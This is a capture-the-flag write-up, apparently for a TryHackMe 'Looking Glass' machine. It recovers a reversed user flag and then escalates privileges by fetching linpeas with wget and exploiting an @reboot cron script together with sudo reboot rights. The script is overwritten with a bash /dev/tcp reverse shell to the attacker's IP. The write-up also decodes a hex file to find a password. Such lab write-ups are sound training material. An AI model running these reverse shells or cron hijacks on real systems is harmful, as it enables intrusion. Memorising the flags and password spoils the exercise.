 * We can log in with `ssh jaberwock@10.10.156.153`

* `cat user.txt` gives us `}32a911966cab2d643f5d57d9e0173d56{mht`, which looks like a backwards flag
	* We can reverse that in python:

```python3
with open('user.txt') as fin:
	print(fin.read().rstrip()[::-1])
```
* The user flag is `thm{65d3710e9d75d5f346d2bac669119a23}`

# Privesc
### tweedledum
* We can use `python3 -m http.server 80` locally and `wget http://10.6.36.105/linpeas.sh` remotely to get linpeas on the machine.
	* Running it, we can see a cronjob that runs the twasBrillig.sh script on reboot as tweedledum:

```
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

* This is important because `sudo -l` shows us that we can aleady reboot:
```
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```
* Thus, we can change the script to make it a reverse shell

`twasBrillig.sh`:
```bash
bash -i >& /dev/tcp/10.6.36.105/1337 0>&1
```

* Now we can run `nc -lvnp 1337` locally and `sudo /sbin/reboot` remotely to get a shell as tweedledum

### tweedledee
* In the `/home/tweedledum` directory, a file called `humptydumpty.txt` contains the following:
```
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```
* This is hex for the following:
```
Üÿõë@B?ZLÐ¨×í9ÿl¹hhõvk@ˆ¹éia¹?v’Ã­5@»€<:îfÍˆ‡24ênqCÀ­×?ô1í?(9;ÆNÁ\»
&°J¦·dœ<È_#°^Ñ^6$?¸áVÑìÜÁEcuøÊé”ÃeI |Œ#´sÝ@O?úQýI«öwÖ£]!Œ_õc:ìž¿Ü]IVAoWö?¹wm}ßEœšÕ°áÖ¬aâ{ïµéŸÖ$Fgv×ÊÎõDÐ?^ˆH˜Ú(qQÐåoÆ)'s`=
j«½Ö*ïrBØ?
the password is zyxwvutsrqponmlk?
```
* The password for something looks like `zyxwvutsrqponmlk`
